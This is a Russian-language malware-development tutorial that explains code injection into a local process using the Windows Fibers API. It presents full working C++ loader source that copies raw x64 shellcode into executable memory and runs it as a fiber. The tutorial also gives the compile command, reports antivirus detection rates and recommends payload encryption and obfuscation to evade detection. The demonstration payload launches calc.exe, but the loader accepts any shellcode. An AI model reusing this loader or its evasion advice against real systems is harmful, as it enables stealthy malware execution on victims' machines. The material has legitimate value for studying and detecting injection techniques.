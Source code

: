 \newpage
\subsection{18. инъекция кода через Windows Fibers. Простой вредоносный код на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![fiber injection](./images/26/2021-11-28_20-18.png){wodth="80%"}    

В этом посте я рассмотрю инъекцию кода в локальный процесс с использованием API Windows Fibers.    

Файбер (Fiber) - это единица выполнения, которую необходимо вручную планировать в приложении. Файберы выполняются в контексте потоков, которые их запланировали.    

### пример

Рассмотрим пример, демонстрирующий этот метод.   

Во-первых, перед планированием первого файбера, вызовем функцию `ConvertThreadToFiber`, чтобы создать область для сохранения информации о состоянии файбера:

![fiber injection 2](./images/26/2021-11-28_20-49.png){wodth="80%"}    

Затем выделим немного памяти для нашего полезного кода, который будет записан в выделенную память:

![fiber injection 3](./images/26/2021-11-28_20-50.png){wodth="80%"}    

Как видно, вызывается `VirtualAlloc` с параметром `PAGE_EXECUTE_READWRITE`, что означает, что память будет исполняемой, читаемой и записываемой.

Следующим шагом создадим файбер, который выполнит наш полезный код:    

![fiber injection 4](./images/26/2021-11-28_20-57.png){wodth="80%"}    

И наконец, запланируем выполнение нового файбера, который указывает на наш полезный код:

![fiber injection 5](./images/26/2021-11-28_20-59.png){wodth="80%"}    

Итак, наш полный исходный код (`hack.cpp`):

```cpp
/*
hack.cpp
code inject via fibers
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/28/malware-injection-8.html
*/
#include <windows.h>

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

unsigned int my_payload_len = sizeof(my_payload);

int main() {

  PVOID f; // converted
  PVOID payload_mem; // memory buffer for payload
  PVOID payloadF; // fiber

  // convert main thread to fiber
  f = ConvertThreadToFiber(NULL);

  // allocate memory buffer
  payload_mem = VirtualAlloc(0, my_payload_len,
  MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  memcpy(payload_mem, my_payload, my_payload_len);

  // create a fiber that will execute payload
  payloadF = CreateFiber(NULL, 
  (LPFIBER_START_ROUTINE)payload_mem, 
  NULL);

  SwitchToFiber(payloadF);
  return 0;
}

```

Как видно, для простоты, мы используем 64-битный `calc.exe` в качестве полезной нагрузки. Не углубляясь в генерацию полезной нагрузки, просто вставим её в наш код:    

```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
```

Компилируем наш простой вредоносный код:
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive
```

![fiber injection 6](./images/26/2021-11-28_21-04.png){wodth="80%"}    

Запускаем `hack.exe` на Windows 7 x64:    
```cmd
.\hack.exe
```

![fiber injection 7](./images/26/2021-11-28_21-06.png){wodth="80%"}    

Также отлично работает на `Windows 10 x64 (build 18363)`:  

![fiber injection 8](./images/26/2021-11-28_21-08.png){wodth="80%"}    

Загружаем наш вредоносный файл на virustotal:  

![fiber injection 9](./images/26/2021-11-28_21-31.png){wodth="80%"}    

[https://www.virustotal.com/gui/file/f03bdb9fa52f7b61ef03141fefff1498ad2612740b1fdbf6941f1c5af5eee70a?nocache=1](https://www.virustotal.com/gui/file/f03bdb9fa52f7b61ef03141fefff1498ad2612740b1fdbf6941f1c5af5eee70a?nocache=1)    

**Итак, 25 из 67 антивирусных движков обнаруживают наш файл как вредоносный.**    

Для лучшего результата мы можем комбинировать [шифрование полезной нагрузки](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html) со случайным ключом и [обфускацию функций](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html) с другими ключами и т. д.    
Также можно использовать [AES-шифрование](https://cocomelonc.github.io/tutorial/2021/09/15/simple-rev-c-1.html) для шифрования полезной нагрузки.

[BlackHat USA 2019 process injection techniques Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)     
[MSDN Fibers](https://docs.microsoft.com/en-us/windows/win32/procthread/fibers)    
[VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)    
[ConvertThreadToFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-convertthreadtofiber)    
[CreateFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createfiber)    
[SwitchToFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-switchtofiber)    
[memcpy](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/memcpy-wmemcpy?view=msvc-170)    
[исходный код на Github](https://github.com/cocomelonc/2021-11-26-malware-injection-8)    
